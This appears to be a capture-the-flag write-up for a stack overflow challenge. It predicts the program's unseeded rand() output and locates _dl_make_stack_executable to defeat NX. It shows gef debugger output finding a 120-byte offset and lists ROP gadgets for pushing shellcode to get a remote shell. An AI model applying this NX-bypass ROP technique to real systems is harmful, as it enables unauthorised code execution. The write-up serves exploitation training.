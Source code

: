 

## Guess the number

We could brute-force to guess the number, or since function ``get_random`` takes a number generated with unseed rand as return, so we could load ``libc`` and call ``rand`` to generate such a number.

```python
num = (libc.rand() % 100) + 1
```

## Make stack executable

```bash
checksec --file ./vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   ./vuln
```

Since the program is NX enabled, we can't simply execute code from stack. To inject and run shellcode we need to make the stack executable.

Run ``nm`` on the program, we found an interesting function ``_dl_make_stack_executable``, which allow us to set permission on stack.

```asm
...
0000000000480860 T _dl_make_stack_executable
...
```

Disassamble with ``radare2``.

```bash
$ r2 vuln
 -- Your problems are solved in an abandoned branch somewhere
 [0x00400a40]> pd $s
```

``_dl_make_stack_executable`` takes ``__libc_stack_end`` as parameter and call ``mprotect`` with parameter ``__stack_prot``. 

```asm
            ;-- _dl_make_stack_executable:
            0x00480860      488b3591a923.  mov rsi, qword [obj._dl_pagesize] ; [0x6bb1f8:8]=0x1000
            0x00480867      53             push rbx
            0x00480868      4889fb         mov rbx, rdi
            0x0048086b      488b17         mov rdx, qword [rdi]
            0x0048086e      4889f7         mov rdi, rsi
            0x00480871      48f7df         neg rdi
            0x00480874      4821d7         and rdi, rdx
            0x00480877      483b15329223.  cmp rdx, qword [obj.__libc_stack_end] ; [0x6b9ab0:8]=0
            0x0048087e      7520           jne 0x4808a0
            0x00480880      8b156a962300   mov edx, dword [obj.__stack_prot] ; [0x6b9ef0:4]=0x1000000
            0x00480886      e8f5abfcff     call sym.__mprotect
            0x0048088b      85c0           test eax, eax
            0x0048088d      7521           jne 0x4808b0
            0x0048088f      48c703000000.  mov qword [rbx], 0
            0x00480896      830d4ba92300.  or dword [obj._dl_stack_flags], 1 ; [0x6bb1e8:4]=7
            0x0048089d      5b             pop rbx
            0x0048089e      c3             ret
```

We need to set ``__stack_prot`` to *7*, meaning *PROT_READ|PROT_WRITE|PROT_EXEC*, and then call ``_dl_make_stack_executable`` with address of ``__libc_stack_end`` to make stack executable.

```c
#define PROT_READ  0x1    /* page can be read */
#define PROT_WRITE  0x2   /* page can be written */
#define PROT_EXEC 0x4     /* page can be executed */
```

So the payload would be ``padding + set __stack_prot to 7 + set rdi to __libc_stack_end + call _dl_make_stack_executable + push shellcode``.

## Find out padding

Set a breakpoint in main and run the program.

```bash
gef➤  break main
gef➤  r
```

Now try to call ``win`` with generated patter to cause segfault.

```bash
gef➤  pattern create 150                                                                                                                     [58/1898]
[+] Generating a pattern of 150 bytes                                                                                                                 
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'                                                      
gef➤  call (void*)win()                                                     
New winner!                                                                
Name? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaa
saaaaa
Congrats aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaa
aaasaaaaa



Program received signal SIGSEGV, Segmentation fault.
0x0000000000400c8b in win ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xa2              
$rbx   : 0x00000000006ba580  →  0x00000000fbad2288
$rcx   : 0x0               
$rdx   : 0x00000000006bcdf0  →  0x0000000000000000
$rsp   : 0x00007fffffffdba8  →  0x6161616161616170 ("paaaaaaa"?)
$rbp   : 0x616161616161616f ("oaaaaaaa"?)
$rsi   : 0x0               
$rdi   : 0x1               
$rip   : 0x0000000000400c8b  →  <win+75> ret 
$r8    : 0x0               
$r9    : 0xa2           
$r10   : 0xffffff69                                                                                                                          [30/1898]
$r11   : 0x246             
$r12   : 0x00000000006bbce0  →  0x0000000000000000
$r13   : 0x00000000006bc0a0  →  0x0000000000000000
$r14   : 0x00000000006bc0a0  →  0x0000000000000000
$r15   : 0x167             
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdba8│+0x0000: 0x6161616161616170   ← $rsp
0x00007fffffffdbb0│+0x0008: 0x6161616161616171
0x00007fffffffdbb8│+0x0010: 0xcc61616161616172
0x00007fffffffdbc0│+0x0018: "saaaaa\n"
0x00007fffffffdbc8│+0x0020: 0x000000006037a800
0x00007fffffffdbd0│+0x0028: 0x0000000010d44792
0x00007fffffffdbd8│+0x0030: 0x000000000041446d  →  <_IO_new_file_write+45> test rax, rax
0x00007fffffffdbe0│+0x0038: 0x0000000010d44792
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400c84 <win+68>         call   0x410010 <printf>
     0x400c89 <win+73>         nop    
     0x400c8a <win+74>         leave  
 →   0x400c8b <win+75>         ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400c8b in win (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400c8b → win()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
The program being debugged was signaled while in a function called from GDB.
GDB remains in the frame where the signal was received.                                                                                       [1/1898]
To change this behavior use "set unwindonsignal on".
Evaluation of the expression containing the function
(win) will be abandoned.
When the function is done executing, GDB will silently stop.
```

Check the registers, noticed the pattern in ``$rsp``. Search the pattern and find out padding is 120.

```bash
gef➤  registers 
$rax   : 0xa2              
$rbx   : 0x00000000006ba580  →  0x00000000fbad2288
$rcx   : 0x0               
$rdx   : 0x00000000006bcdf0  →  0x0000000000000000
$rsp   : 0x00007fffffffdba8  →  0x6161616161616170 ("paaaaaaa"?)
$rbp   : 0x616161616161616f ("oaaaaaaa"?)
$rsi   : 0x0               
$rdi   : 0x1               
$rip   : 0x0000000000400c8b  →  <win+75> ret 
$r8    : 0x0               
$r9    : 0xa2              
$r10   : 0xffffff69        
$r11   : 0x246             
$r12   : 0x00000000006bbce0  →  0x0000000000000000
$r13   : 0x00000000006bc0a0  →  0x0000000000000000
$r14   : 0x00000000006bc0a0  →  0x0000000000000000
$r15   : 0x167             
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
gef➤  pattern search paaaaaaa
[+] Searching 'paaaaaaa'
[+] Found at offset 113 (little-endian search) likely
[+] Found at offset 120 (big-endian search) 
gef➤ 
```


## Find gadgets

Run ``ROPgadget`` to print all the gadges in ``vuln``.

```bash
ROPgadget --binary ./vuln
```

``ROP.find_gadget`` in ``pwntools`` is convinient, but some gadgets might be missing in gadget list, we could still manually add them.

```bash
...
0x0000000000419127 : mov qword ptr [rdx], rax ; ret
...
0x0000000000451974 : push rsp ; ret
...
```

Combine them all together to get shell and find the flag in ``flag.txt`` on remote server.

